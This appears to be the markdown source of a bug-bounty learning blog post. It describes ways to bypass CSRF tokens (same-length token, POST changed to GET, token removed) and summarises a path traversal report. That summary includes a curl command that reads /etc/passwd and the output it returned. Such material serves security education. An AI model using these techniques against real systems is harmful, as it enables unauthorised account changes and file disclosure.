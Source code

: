 ```yaml
---
title:  "Day 20/100 Hack and Improvement"
date: 2020-05-20
tags: [Penetration Testing, Hacking, Bug Bounty, Offensive Security]
header: 
  image: "assets/images/100dl/day20/header.jpg"
---
```



## Bypassing CSRF Protection

[Rajesh Ranjan](https://twitter.com/eh_rajesh). In most of the cases, the web applications are protected by some anti CSRF token, but there are few ways by which we can bypass these protection. Here I have describe few ways to bypass the protection. 

### Replacing the token value with same length

Sometimes by replacing the token with the same length may lead to bypass the CSRF protection, like if the token value is of 32 character long in the ```csrf_token``` variable, then try to replace the same with another 32 character value.

**Example:** if your token value ```csrf_token=8d959ed6e0109c03635b45921f9b17d9``` then replace it with the any 32 character long like ```csrf_token=abcdefghijklmnop1234432123```

### Changing the Request Method

The another way to Bypass the CSRF protection is by changing the request method, like if any sensitive action is done via POST method, try to change it to GET method, sometime it might work.

**Example:**

Suppose here is a request for the password change.
```
POST /change_password
```
Body:
```
new_password=12345
```

**TO**
```
GET /change_password?new_password=12345
```

### Remove the CSRF token completely

This technique for bypassing the CSRF protection is famous and it works in few cases. In this what we can do is, remove the ```csrf_token``` value completely and then submit the request. 

**Case 1:** I was testing a web application and found that, while adding an address to account, there is an anti-csrf token present in the request. So I tried to remove the ```csfr_token``` value from the request and the request got submitted. So I was able to add attacker’s address into the Victim’s account

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/100dl/day20/csrf.png" alt="nmap scan">


**Case 2:** This was an e-commerce website and there was an option to add items to cart. So I capture the add to cart request, and tried to remove the anti-csrf token, and the same way request got submitted. 

In this case, an attacker may be able to add any items to victim cart. If victim do not find this item, he/she would pay for this item which can greatly influence company reputation

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/100dl/day20/csrf2.png" alt="nmap scan">


## Path Traversal and Capabilities

Path traversal attacks are also known as directory traversal which leads to unrestricted access to different directories that are stored outside the web root folder. Manipulating different variables that references files such as, ```../../../``` sequences the attacker can achieve unrestricted access to files that are related to the application sources code or configuration in the critical files. 

## Write Up and Explanation

[**Path Traversal vulnerability allows to read content on arbitrary file on the server**](https://hackerone.com/reports/310943)

The attacker saw the path traversal possible through a general file server made by nodejs. Once the attacker knew the technology that it was running, he proceeds to install the ```general file server``` in his machine by serving the different modules and executing the following curl command:

```
curl -v --path-as-is http://127.0.0.1:8080/../../../../../../etc/passwd
```

The attacker got the following result:
```
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET /../../../../../../etc/passwd HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Content-Type: application/octet-stream
< Date: Wed, 31 Jan 2018 12:53:13 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
(...)
```


